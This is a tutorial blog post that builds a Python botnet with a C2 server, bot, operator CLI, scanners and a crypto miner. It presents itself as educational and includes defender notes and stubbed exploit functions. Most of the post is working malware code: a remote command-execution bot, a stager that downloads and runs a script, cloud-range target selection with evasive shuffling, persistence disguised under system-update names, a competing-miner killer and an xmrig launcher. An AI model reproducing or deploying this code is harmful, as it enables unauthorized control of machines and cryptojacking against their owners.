


> This post is for educational purposes only. Everything here runs on your own machine.
> Do not deploy this against systems you don't own. Unauthorized access to computer systems
> is illegal in virtually every jurisdiction.

## What is a Botnet?

A botnet is a network of compromised machines -- called **bots** -- all controlled by a single
operator through a **command and control (C2) server**. The person running the operation is
called the **bot herder**.

Botnets are used for things like distributed denial-of-service (DDoS) attacks, spam campaigns,
credential stuffing, and cryptomining. Understanding how they're built is useful for defenders
because you can't detect or disrupt something you don't understand.

## Architecture

A centralized botnet has three components:

- **Bot** -- malware running on a compromised machine. Connects out to the C2 server, waits
  for commands, executes them, and sends results back.
- **C2 Server** -- the hub. Accepts incoming connections from bots and from the operator,
  maintains a registry of connected bots, and routes commands.
- **Operator** -- the bot herder's interface. Connects to the C2 server to list bots, select
  a target, and issue commands.



### Why bots connect outward

The C2 server never initiates a connection to a bot. The bots always connect *out* to the C2.
This is intentional -- most firewalls block unsolicited inbound connections but allow outbound
TCP freely. By having bots initiate the connection on a common port (443, 80, etc.), the
traffic blends in with normal web traffic and passes through corporate and home firewalls
without special rules.

This asymmetry is a core reason botnets are difficult to block purely at the network level.

### C2 architecture types

The centralized model we're building is the simplest, but not the only one used in the wild:

| Type | How it works | Weakness |
|---|---|---|
| **Centralized (TCP/HTTP)** | Bots connect to a single server | Take down the server, botnet goes dark |
| **IRC-based** | Bots join an IRC channel and listen for commands | Easy to infiltrate, IRC servers often blocked |
| **HTTP polling** | Bots periodically GET a page for new commands | Looks like normal web traffic, hard to block |
| **P2P** | Bots form a mesh, no single C2 | No single point of failure, very resilient |
| **DGA** | Bots generate domain names algorithmically to find the active C2 | Hard to preemptively block all generated domains |

## What we're building

This post covers **C2 infrastructure** -- the server and clients -- not bot propagation (getting
malware onto machines in the first place). Propagation is a separate topic involving exploit
delivery, phishing, or physical access. We're only building the communication layer.

The full demo runs entirely on `127.0.0.1`. You'll need three terminal windows.

## Prerequisites

- Python 3.6+
- No third-party packages -- standard library only

## The protocol

All three components communicate over TCP using a simple length-prefixed binary protocol.
Every message is a 4-byte big-endian unsigned integer (the payload length) followed by the
UTF-8 encoded payload. This is more robust than newline-delimited messages because command
output can contain newlines.

We'll define two helper functions used by all three scripts:

```python
import struct

def send_msg(sock, text):
    data = text.encode()
    sock.sendall(struct.pack(">I", len(data)) + data)

def recv_msg(sock):
    header = _recvall(sock, 4)
    if header is None:
        return None
    (length,) = struct.unpack(">I", header)
    payload = _recvall(sock, length)
    return payload.decode() if payload is not None else None

def _recvall(sock, n):
    buf = b""
    while len(buf) < n:
        chunk = sock.recv(n - len(buf))
        if not chunk:
            return None
        buf += chunk
    return buf
```

To keep things self-contained, these helpers are inlined into each script rather than imported
from a shared module.

---

## Part 1: Localhost Demo

### C2 Server -- `cnc.py`

The C2 server listens for incoming connections. Each connecting client identifies itself
immediately after connecting -- either as a `BOT` or as an `OPERATOR`. The server maintains
a thread-safe registry of connected bots. When an operator issues a `run` command, the server
forwards it to the selected bot and returns the output.

```python
# cnc.py
import socket
import struct
import sys
import threading

HOST = "0.0.0.0"
PORT = 9999

bots = {}           # {bot_id: {"conn": socket, "addr": (ip, port)}}
bot_lock = threading.Lock()
next_bot_id = 0


# ---------- protocol helpers ----------

def send_msg(sock, text):
    data = text.encode()
    sock.sendall(struct.pack(">I", len(data)) + data)


def recv_msg(sock):
    header = _recvall(sock, 4)
    if header is None:
        return None
    (length,) = struct.unpack(">I", header)
    payload = _recvall(sock, length)
    return payload.decode() if payload is not None else None


def _recvall(sock, n):
    buf = b""
    while len(buf) < n:
        chunk = sock.recv(n - len(buf))
        if not chunk:
            return None
        buf += chunk
    return buf


# ---------- bot handler ----------

def handle_bot(conn, addr, bot_id):
    print(f"[+] Bot {bot_id} registered from {addr[0]}:{addr[1]}")
    gone = threading.Event()
    with bot_lock:
        bots[bot_id] = {"conn": conn, "addr": addr, "gone": gone}
    try:
        # Bot sits idle -- the operator handler talks to it directly via
        # send_msg/recv_msg. We must NOT read from the socket here because
        # a concurrent recv would race with the operator handler and corrupt
        # the length-prefixed framing. Instead we block on a threading.Event
        # that the operator handler sets when it detects the bot has gone away.
        gone.wait()
    except Exception:
        pass
    finally:
        with bot_lock:
            bots.pop(bot_id, None)
        conn.close()
        print(f"[-] Bot {bot_id} disconnected")


# ---------- operator handler ----------

def handle_operator(conn, addr):
    print(f"[+] Operator connected from {addr[0]}:{addr[1]}")
    selected = None  # currently selected bot_id

    try:
        send_msg(conn, "Connected to C2. Commands: list, use <id>, run <cmd>, quit")

        while True:
            raw = recv_msg(conn)
            if raw is None:
                break
            cmd = raw.strip()

            if cmd == "help":
                send_msg(conn, "Commands: list, use <id>, run <cmd>, quit")

            elif cmd == "list":
                with bot_lock:
                    if not bots:
                        send_msg(conn, "(no bots connected)")
                    else:
                        lines = [
                            f"  [{bid}] {info['addr'][0]}:{info['addr'][1]}"
                            for bid, info in bots.items()
                        ]
                        send_msg(conn, "\n".join(lines))

            elif cmd.startswith("use "):
                parts = cmd.split(None, 1)
                if len(parts) < 2 or not parts[1].isdigit():
                    send_msg(conn, "Usage: use <id>")
                    continue
                bid = int(parts[1])
                with bot_lock:
                    if bid in bots:
                        selected = bid
                        send_msg(conn, f"Selected bot {bid} ({bots[bid]['addr'][0]})")
                    else:
                        send_msg(conn, f"Bot {bid} not found.")

            elif cmd.startswith("run "):
                if selected is None:
                    send_msg(conn, "No bot selected. Use 'use <id>' first.")
                    continue
                command = cmd.split(None, 1)[1]
                with bot_lock:
                    bot = bots.get(selected)
                if bot is None:
                    send_msg(conn, f"Bot {selected} is no longer connected.")
                    selected = None
                    continue
                try:
                    send_msg(bot["conn"], command)
                    output = recv_msg(bot["conn"])
                    send_msg(conn, output if output else "(no output)")
                except Exception as e:
                    send_msg(conn, f"Error communicating with bot: {e}")
                    with bot_lock:
                        gone_bot = bots.pop(selected, None)
                    if gone_bot:
                        gone_bot["gone"].set()
                    selected = None

            elif cmd == "quit":
                send_msg(conn, "Goodbye.")
                break

            else:
                send_msg(conn, f"Unknown command: '{cmd}'. Type 'help'.")

    except Exception as e:
        print(f"[!] Operator error: {e}")
    finally:
        conn.close()
        print(f"[-] Operator {addr[0]}:{addr[1]} disconnected")


# ---------- main ----------

def main():
    global next_bot_id

    server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    try:
        server.bind((HOST, PORT))
    except OSError as e:
        print(f"[!] Failed to bind to {HOST}:{PORT} -- {e}")
        sys.exit(1)
    server.listen(50)
    print(f"[*] C2 listening on {HOST}:{PORT}")

    while True:
        conn, addr = server.accept()
        role = recv_msg(conn)
        if role is None:
            conn.close()
            continue

        if role == "BOT":
            with bot_lock:
                next_bot_id += 1
                bid = next_bot_id
            t = threading.Thread(
                target=handle_bot, args=(conn, addr, bid), daemon=True
            )
            t.start()
        elif role == "OPERATOR":
            t = threading.Thread(
                target=handle_operator, args=(conn, addr), daemon=True
            )
            t.start()
        else:
            conn.close()


if __name__ == "__main__":
    main()
```

Key points:

- `threading.Thread` per connection so bots don't block each other.
- `bot_lock` protects the shared `bots` dict from race conditions.
- The operator handler accesses a bot's socket directly and relays the command. The C2 is
  the intermediary -- the operator never holds a direct connection to any bot.
- `SO_REUSEADDR` lets you restart the server quickly without waiting for the OS to release
  the port.

### Bot -- `bot.py`

The bot connects outward to the C2, registers itself, then sits in a loop waiting for
commands. Each command is executed via `subprocess` and the output (stdout + stderr combined)
is sent back.

```python
# bot.py
import socket
import struct
import subprocess
import sys
import time

C2_HOST = "127.0.0.1"
C2_PORT = 9999
RECONNECT_DELAY = 5  # seconds to wait before reconnecting after a dropped connection


# ---------- protocol helpers ----------

def send_msg(sock, text):
    data = text.encode()
    sock.sendall(struct.pack(">I", len(data)) + data)


def recv_msg(sock):
    header = _recvall(sock, 4)
    if header is None:
        return None
    (length,) = struct.unpack(">I", header)
    payload = _recvall(sock, length)
    return payload.decode() if payload is not None else None


def _recvall(sock, n):
    buf = b""
    while len(buf) < n:
        chunk = sock.recv(n - len(buf))
        if not chunk:
            return None
        buf += chunk
    return buf


# ---------- command execution ----------

def execute(command):
    try:
        result = subprocess.run(
            command,
            shell=True,
            capture_output=True,
            text=True,
            timeout=30,
        )
        output = result.stdout + result.stderr
        return output.strip() if output.strip() else "(no output)"
    except subprocess.TimeoutExpired:
        return "(command timed out after 30s)"
    except Exception as e:
        return f"(execution error: {e})"


# ---------- main loop ----------

def run():
    while True:
        conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        try:
            conn.connect((C2_HOST, C2_PORT))
            send_msg(conn, "BOT")
            print(f"[*] Registered with C2 at {C2_HOST}:{C2_PORT}")

            while True:
                command = recv_msg(conn)
                if command is None:
                    print("[!] C2 connection closed.")
                    break
                print(f"[*] Executing: {command}")
                output = execute(command)
                send_msg(conn, output)

        except Exception as e:
            print(f"[!] {e}. Reconnecting in {RECONNECT_DELAY}s...")
        finally:
            conn.close()

        time.sleep(RECONNECT_DELAY)


if __name__ == "__main__":
    run()
```

Key points:

- The reconnect loop means the bot will keep trying to reach the C2 after a disconnect.
  This mirrors real-world bot behavior -- bots are designed to be resilient to C2 downtime.
- `subprocess.run` with `shell=True` runs the command through the system shell, which is
  why arbitrary shell syntax (pipes, redirects, etc.) works.
- stdout and stderr are combined so the operator sees both normal output and error messages.
- A 30-second timeout prevents a long-running command from hanging the bot indefinitely.

### Operator CLI -- `operator.py`

The operator connects to the C2, identifies as an operator, and gets an interactive prompt
to manage bots.

```python
# operator.py
import socket
import struct
import sys

C2_HOST = "127.0.0.1"
C2_PORT = 9999


# ---------- protocol helpers ----------

def send_msg(sock, text):
    data = text.encode()
    sock.sendall(struct.pack(">I", len(data)) + data)


def recv_msg(sock):
    header = _recvall(sock, 4)
    if header is None:
        return None
    (length,) = struct.unpack(">I", header)
    payload = _recvall(sock, length)
    return payload.decode() if payload is not None else None


def _recvall(sock, n):
    buf = b""
    while len(buf) < n:
        chunk = sock.recv(n - len(buf))
        if not chunk:
            return None
        buf += chunk
    return buf


# ---------- main ----------

def main():
    conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    try:
        conn.connect((C2_HOST, C2_PORT))
    except ConnectionRefusedError:
        print(f"[!] Could not connect to C2 at {C2_HOST}:{C2_PORT}. Is cnc.py running?")
        sys.exit(1)

    send_msg(conn, "OPERATOR")

    # Print the welcome message
    welcome = recv_msg(conn)
    if welcome:
        print(welcome)

    while True:
        try:
            cmd = input("\nc2> ").strip()
        except (KeyboardInterrupt, EOFError):
            cmd = "quit"

        if not cmd:
            continue

        send_msg(conn, cmd)
        response = recv_msg(conn)

        if response is not None:
            print(response)

        if cmd == "quit":
            break

    conn.close()


if __name__ == "__main__":
    main()
```

### Running the demo

You need three terminals open in the same directory.

**Terminal 1 -- start the C2 server:**

```bash
python cnc.py
```

```
[*] C2 listening on 0.0.0.0:9999
```

**Terminal 2 -- start a bot:**

```bash
python bot.py
```

```
[*] Registered with C2 at 127.0.0.1:9999
```

You'll also see the C2 terminal print:

```
[+] Bot 1 registered from 127.0.0.1:PORT
```

**Terminal 3 -- connect as the operator:**

```bash
python operator.py
```

```
Connected to C2. Commands: list, use <id>, run <cmd>, quit

c2> list
  [1] 127.0.0.1:PORT

c2> use 1
Selected bot 1 (127.0.0.1)

c2> run whoami
your-username

c2> run uname -a
Linux hostname 5.15.0 ...

c2> run ls /tmp
file1
file2

c2> quit
Goodbye.
```

You can open more terminals and run additional instances of `bot.py` to simulate a multi-bot
network. Each gets its own ID and can be targeted independently.

### What's happening under the hood



---

## Part 2: Extending to a Real Network

The C2 server and bot code work identically on a real network -- the only change is the
IP address the bot connects to.

> Only do this on machines and networks you own or have explicit written authorization to
> test against. Running a bot on someone else's machine without consent is unauthorized
> access.

### Pointing the bot at a real C2

On the machine you want to act as the C2, find its IP:

```bash
ip addr show   # Linux
ipconfig       # Windows
```

Then update `C2_HOST` in `bot.py`:

```python
C2_HOST = "192.168.1.50"  # your C2 machine's IP
```

Make sure port 9999 is reachable from the bot machine. If there's a firewall between them,
you'll need to open the port or use a port that's already allowed outbound (like 443 if you
move to TLS, or 80).

### Scanning for reachable hosts

If you want to discover what hosts are up on your local network before deploying a bot
manually, here's a corrected port scanner. The original version in most examples has a
subtle bug -- the `finally` block runs regardless of whether the port was open, so you
need to check inside the `try`:

```python
# scan.py
import ipaddress
import socket


def scan(cidr, ports=None, timeout=0.5):
    """Scan a CIDR range for hosts with open TCP ports.

    Only use this on networks you own or have explicit permission to scan.

    Args:
        cidr: network range, e.g. "192.168.1.0/24"
        ports: list of port numbers to check, defaults to [22, 80, 443, 8080]
        timeout: seconds to wait per connection attempt

    Returns:
        list of (ip_str, [open_ports]) tuples
    """
    if ports is None:
        ports = [22, 80, 443, 8080]

    results = []
    for ip in ipaddress.IPv4Network(cidr, strict=False):
        ip_str = str(ip)
        open_ports = []
        for port in ports:
            try:
                with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
                    s.settimeout(timeout)
                    s.connect((ip_str, port))
                    open_ports.append(port)
            except (socket.timeout, ConnectionRefusedError, OSError):
                pass
        if open_ports:
            results.append((ip_str, open_ports))

    return results


if __name__ == "__main__":
    import sys
    cidr = sys.argv[1] if len(sys.argv) > 1 else "192.168.1.0/24"
    print(f"Scanning {cidr}...")
    for ip, ports in scan(cidr):
        print(f"  {ip}: {ports}")
```

Run it against your own subnet:

```bash
python scan.py 192.168.1.0/24
```

```
Scanning 192.168.1.0/24...
  192.168.1.1: [80, 443]
  192.168.1.50: [22]
  192.168.1.101: [22, 8080]
```

The bug in the naive version is calling `hosts.append(host)` inside the per-port
loop. Every time a port succeeds the entire host entry (with all ports found so
far) gets appended again, so a host with two open ports ends up in the list twice
with an incomplete port list each time:

```python
# broken -- hosts.append runs once per successful port, not once per host
try:
    socket.connect(...)
    host[-1].append(port)
    hosts.append(host)  # appends a partial/duplicate entry on every success
except:
    pass
```

The fix is to move `hosts.append(host)` outside the per-port loop so it runs
once after all ports have been scanned, as shown above.

### Persistence

In a real deployment, bots are made persistent so they survive reboots. The mechanism
depends on the OS:

- **Linux** -- cron job (`@reboot python /path/to/bot.py`) or a systemd user service unit
- **macOS** -- a `launchd` plist in `~/Library/LaunchAgents/`
- **Windows** -- a registry `Run` key under `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`

Persistence is worth understanding from a detection standpoint. These are exactly the
locations defenders check when investigating a compromised machine.

---

## Part 3: A Real-World Scenario -- Crypto Miner Botnet

Parts 1 and 2 covered the mechanics of a C2 in isolation. This section puts those
mechanics into a realistic context: the crypto miner botnet, which is one of the most
common botnet types seen in the wild today. The goal here is to understand how these
operations actually work, what they look like on the wire, and what defenders look for.
None of the code in this section contains working exploit payloads -- those steps are
stubbed so the overall shape is clear without being a ready-to-run attack toolkit.

### How it spreads

A crypto miner botnet grows by scanning the public internet for servers running
vulnerable or misconfigured services, exploiting them to get a shell, and then
installing itself. The scanning isn't random -- bots target IP ranges published by
cloud providers (AWS, DigitalOcean, Vultr, Hetzner all publish their CIDR ranges
publicly) because cloud servers are always on, have good bandwidth, and are frequently
spun up and forgotten with default configurations.

The most commonly targeted ports and services are:

| Port | Service | Why it's targeted |
|------|---------|------------------|
| 22 | SSH | Outdated daemons, weak/default credentials, or misconfigured key auth |
| 2375 | Docker API (unauthenticated) | Exposes full container and host control with no auth by default |
| 6379 | Redis (no-auth) | Default Redis has no password; allows arbitrary command execution via config writes |
| 8888 | Jupyter Notebook | Frequently deployed without a password, gives a full code execution interface |
| 80/443 | HTTP/S | Web apps running outdated software with known RCE vulnerabilities |

Here's an extended version of the scanner from Part 2 that specifically targets those
services:

```python
# spread_scan.py
import ipaddress
import socket
import random

# Ports worth checking for common misconfigurations
TARGET_PORTS = [22, 80, 443, 2375, 6379, 8888]


def scan_subnet(cidr, ports=None, timeout=0.5):
    """Scan a CIDR range for hosts with open target ports.

    Only use this on networks you own or have explicit permission to scan.
    """
    if ports is None:
        ports = TARGET_PORTS

    results = []
    hosts = list(ipaddress.IPv4Network(cidr, strict=False).hosts())
    random.shuffle(hosts)  # randomise order to avoid sequential scan signatures

    for ip in hosts:
        ip_str = str(ip)
        open_ports = []
        for port in ports:
            try:
                with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
                    s.settimeout(timeout)
                    s.connect((ip_str, port))
                    open_ports.append(port)
            except (socket.timeout, ConnectionRefusedError, OSError):
                pass
        if open_ports:
            results.append((ip_str, open_ports))

    return results


def pick_random_cloud_subnet():
    """Return a random /24 from a handful of well-known cloud provider ranges.

    These ranges are publicly documented by each provider.
    Using them here purely as examples of how bots pick targets.
    """
    cloud_cidrs = [
        "3.0.0.0/8",      # AWS ap-southeast-1 (example)
        "104.16.0.0/12",  # Cloudflare / common hosting
        "167.99.0.0/16",  # DigitalOcean
        "95.179.0.0/16",  # Vultr
    ]
    base = ipaddress.IPv4Network(random.choice(cloud_cidrs), strict=False)
    # pick a random /24 within the larger block
    subnets = list(base.subnets(new_prefix=24))
    return str(random.choice(subnets))
```

The shuffle matters -- sequential scanning of a /24 is a trivial IDS signature.
Randomising the order and spreading attempts over time makes it look more like
background noise.

### Initial access and privilege escalation

Once the scanner returns a hit, the bot tries to turn an open port into a shell.
The general flow for each service type is the same:

1. Fingerprint the service (banner grab or a known probe request)
2. Try the most common misconfiguration for that service
3. If a foothold is established as a low-privilege user, check for priv-esc paths
4. Report back to C2 with access details

The code below stubs out each exploit path. The comments describe what a real
implementation would do -- the intent is to make the technique legible to a defender
without providing a working payload:

```python
# exploit.py

class ExploitError(Exception):
    pass


def fingerprint(ip, port, timeout=3):
    """Grab the service banner from an open port."""
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.settimeout(timeout)
            s.connect((ip, port))
            s.send(b"\r\n")
            return s.recv(1024).decode(errors="replace").strip()
    except Exception:
        return ""


def exploit(ip, port):
    """Attempt to gain shell access via a known misconfiguration.

    Returns a shell command runner callable on success, raises ExploitError otherwise.
    This is intentionally stubbed -- the comments describe the real technique.
    """
    banner = fingerprint(ip, port)

    if port == 22:
        # SSH -- try a short list of common default credentials via paramiko.
        # Real variants also try CVE-based auth-bypass on older OpenSSH versions.
        # If creds succeed: return a function that runs commands over the SSH channel.
        raise NotImplementedError("SSH exploit stub -- paramiko credential spray")

    elif port == 2375:
        # Unauthenticated Docker API -- POST /containers/create with a bind-mount
        # of the host filesystem, then exec into the container to read/write host files.
        # Trivially achieves root-equivalent access on the host.
        raise NotImplementedError("Docker API stub -- container escape via host bind-mount")

    elif port == 6379:
        # Redis with no auth -- use CONFIG SET dir/dbfilename to write an SSH authorized_keys
        # file or a cron entry directly to disk, then trigger a BGSAVE.
        # Gives arbitrary file write as the redis user, often root.
        raise NotImplementedError("Redis stub -- config write to disk for persistence")

    elif port == 8888:
        # Jupyter without a password -- POST to /api/kernels to create a kernel,
        # then send arbitrary Python code via the websocket execute channel.
        # Immediate unauthenticated code execution as whatever user launched Jupyter.
        raise NotImplementedError("Jupyter stub -- kernel execute via REST API")

    elif port in (80, 443):
        # HTTP -- check the banner/Server header for known vulnerable software versions,
        # then apply a matching RCE payload (deserialization, SSTI, command injection, etc.).
        raise NotImplementedError("HTTP stub -- version-matched RCE payload")

    raise ExploitError(f"No exploit available for port {port}")


def try_privesc(run_cmd):
    """Given a low-priv shell runner, try common privilege escalation paths.

    run_cmd is a callable that takes a shell command string and returns stdout.
    Returns True if we achieved root, False otherwise.
    """
    checks = [
        # SUID binaries that can be abused to get a root shell (see gtfobins.github.io)
        "find / -perm -4000 -type f 2>/dev/null",
        # World-writable cron scripts run as root
        "find /etc/cron* /var/spool/cron -writable 2>/dev/null",
        # Sudo rules that allow running something as root without a password
        "sudo -n -l 2>/dev/null",
    ]
    for cmd in checks:
        try:
            output = run_cmd(cmd)
            if output.strip():
                # A real bot would parse the output and chain into a known
                # gtfobins technique or overwrite the writable cron script.
                return True
        except Exception:
            pass
    return False
```

### Staged payload delivery

Carrying the full miner binary inside the initial implant is wasteful and makes the
implant easier to fingerprint. Real operations split this into two stages:

- **Stage 1 (stager)** -- tiny script, sole job is to phone home to a staging server
  and pull down the real payload, then execute it.
- **Stage 2 (payload)** -- the full `miner_bot.py` served from a plain HTTP server.

This also means the operator can update the payload on the staging server and all
future infections automatically get the new version.

```python
# stager.py
import os
import stat
import subprocess
import tempfile
import urllib.request

STAGING_URL = "http://127.0.0.1:8000/miner_bot.py"


def fetch_and_exec(url):
    tmp = tempfile.mktemp(suffix=".py")
    urllib.request.urlretrieve(url, tmp)
    os.chmod(tmp, stat.S_IRWXU)
    subprocess.Popen(["python3", tmp])


if __name__ == "__main__":
    fetch_and_exec(STAGING_URL)
```

The staging server for the local demo is just Python's built-in HTTP server:

```bash
# serve miner_bot.py from the current directory
python3 -m http.server 8000
```

In a real operation the staging server is a separate VPS, often fronted by a CDN or
legitimate-looking domain so the HTTP request blends in with normal traffic.

### Killing competing miners

Once the payload lands, the first thing it does before starting its own miner is kill
any other mining processes. The goal is exclusivity -- a host running three miners
splits its compute three ways, raises CPU alerts faster, and is more likely to get
cleaned up.

```python
# miner_bot.py (excerpt)
import os
import signal
import psutil

KNOWN_MINER_NAMES = {
    "xmrig", "xmrig-notls",
    "minerd", "cpuminer",
    "cgminer", "bfgminer",
    "ethminer", "phoenix",
    "nbminer", "teamredminer",
    "t-rex", "gminer",
}


def kill_competing_miners(own_pid):
    """Terminate any running processes that look like competing miners."""
    for proc in psutil.process_iter(["pid", "name", "cmdline"]):
        try:
            name = (proc.info["name"] or "").lower()
            cmdline = " ".join(proc.info["cmdline"] or []).lower()
            if proc.info["pid"] == own_pid:
                continue
            if name in KNOWN_MINER_NAMES or any(m in cmdline for m in KNOWN_MINER_NAMES):
                os.kill(proc.info["pid"], signal.SIGKILL)
        except (psutil.NoSuchProcess, psutil.AccessDenied, ProcessLookupError):
            pass
```

From a defender's perspective: if you notice a known miner process disappearing from
`ps` output and a new unknown high-CPU process appearing shortly after, that's a
strong indicator of a more sophisticated infection taking over.

### Persistence

The bot installs itself to survive reboots. A production variant tries all applicable
methods and takes the first one that works:

```python
# miner_bot.py (excerpt)
import os
import platform
import subprocess
import sys
import textwrap


def install_persistence(script_path=None):
    """Write persistence entries for the current platform.

    script_path defaults to the currently running script.
    Defender note: these are the exact locations to audit on a suspected host.
    """
    if script_path is None:
        script_path = os.path.abspath(sys.argv[0])

    system = platform.system()

    if system == "Linux":
        _persist_linux(script_path)
    elif system == "Darwin":
        _persist_macos(script_path)
    elif system == "Windows":
        _persist_windows(script_path)


def _persist_linux(script_path):
    # Method 1: user crontab -- survives as long as the user account exists
    cron_line = f"@reboot python3 {script_path}\n"
    try:
        existing = subprocess.check_output(["crontab", "-l"],
                                           stderr=subprocess.DEVNULL).decode()
    except subprocess.CalledProcessError:
        existing = ""
    if script_path not in existing:
        new_cron = existing + cron_line
        proc = subprocess.Popen(["crontab", "-"],
                                 stdin=subprocess.PIPE)
        proc.communicate(new_cron.encode())

    # Method 2: systemd user service -- more reliable, survives session logout
    unit_dir = os.path.expanduser("~/.config/systemd/user")
    os.makedirs(unit_dir, exist_ok=True)
    unit_path = os.path.join(unit_dir, "sysupdate.service")
    unit_content = textwrap.dedent(f"""\
        [Unit]
        Description=System Update Service

        [Service]
        ExecStart=python3 {script_path}
        Restart=always
        RestartSec=30

        [Install]
        WantedBy=default.target
    """)
    with open(unit_path, "w") as f:
        f.write(unit_content)
    subprocess.run(["systemctl", "--user", "enable", "--now", "sysupdate"],
                   stderr=subprocess.DEVNULL)


def _persist_macos(script_path):
    # launchd plist in ~/Library/LaunchAgents/ -- loaded on login
    plist_dir = os.path.expanduser("~/Library/LaunchAgents")
    os.makedirs(plist_dir, exist_ok=True)
    plist_path = os.path.join(plist_dir, "com.apple.sysupdate.plist")
    plist_content = textwrap.dedent(f"""\
        <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN"
            "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
        <plist version="1.0">
        <dict>
            <key>Label</key>
            <string>com.apple.sysupdate</string>
            <key>ProgramArguments</key>
            <array>
                <string>python3</string>
                <string>{script_path}</string>
            </array>
            <key>RunAtLoad</key>
            <true/>
            <key>KeepAlive</key>
            <true/>
        </dict>
        </plist>
    """)
    with open(plist_path, "w") as f:
        f.write(plist_content)
    subprocess.run(["launchctl", "load", plist_path], stderr=subprocess.DEVNULL)


def _persist_windows(script_path):
    # Registry Run key -- executed on every user login
    import winreg
    key = winreg.OpenKey(
        winreg.HKEY_CURRENT_USER,
        r"Software\Microsoft\Windows\CurrentVersion\Run",
        0, winreg.KEY_SET_VALUE
    )
    winreg.SetValueEx(key, "SystemUpdate", 0, winreg.REG_SZ,
                      f"python3 {script_path}")
    winreg.CloseKey(key)
```

Detection checklist for each method:

| Method | What to check |
|--------|--------------|
| Linux crontab | `crontab -l` for the affected user |
| Linux systemd user unit | `systemctl --user list-units --all` |
| macOS launchd | `launchctl list` and `~/Library/LaunchAgents/` |
| Windows registry | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` in regedit |

### Mining

Once persistence is set and competing miners are dead, the bot launches `xmrig`
pointing at a pool. The wallet address and pool are the only operator-specific
config -- everything else is generic:

```python
# miner_bot.py (excerpt)
import subprocess

WALLET = "YOUR_WALLET_ADDRESS"
POOL   = "pool.minexmr.com:4444"
WORKER = "bot1"


def start_miner():
    """Launch xmrig in the background.

    Assumes xmrig is on PATH. Real deployments fetch the binary from the
    staging server alongside the bot script.
    """
    return subprocess.Popen(
        [
            "xmrig",
            "--url",    POOL,
            "--user",   f"{WALLET}.{WORKER}",
            "--pass",   "x",
            "--background",
            "--no-color",
        ],
        stdout=subprocess.DEVNULL,
        stderr=subprocess.DEVNULL,
    )
```

